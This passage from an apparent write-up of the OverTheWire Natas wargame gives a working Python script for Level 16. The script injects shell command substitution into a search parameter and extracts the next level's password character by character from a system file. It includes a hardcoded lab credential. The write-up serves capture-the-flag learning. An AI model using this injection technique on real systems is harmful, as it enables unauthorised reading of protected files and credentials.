 So I tried using a script I found online, but I couldn't figure out how it was working, so I modified it a bit.

```
import requests
import string
from requests.auth import HTTPBasicAuth

# Password from the last level
auth=HTTPBasicAuth('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

# Initiate some empty strings
filteredchars = ""
password = ""

# Build the word list
chars = list(string.ascii_lowercase)
chars2 = list(string.ascii_uppercase)
numbs = list(range(10))
combo = chars+chars2+numbs


# Loop through the list
for char in combo:
    thing = 'http://natas16.natas.labs.overthewire.org/?needle=bullfrogs$(grep '+str(char)+' /etc/natas_webpass/natas17)'
    req = requests.get(thing, auth=auth)

    if 'bullfrogs' not in req.text:
        filteredchars = filteredchars+str(char)

print "Filtered Character List: "+ filteredchars

for i in range(32):
    for char in filteredchars:
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=bullfrogs$(grep ^'+password+char+' /etc/natas_webpass/natas17)', auth=auth)
        
        if 'bullfrogs' not in r.text:
            password = password+char
            break


print "Password: "+password
```

## Level 17

Talk about the blind leading the blind. Not only do we have ourselves a blind SQL injection, but this time we don't even have a normal output to query...

How the hell are we going to pull this one off?
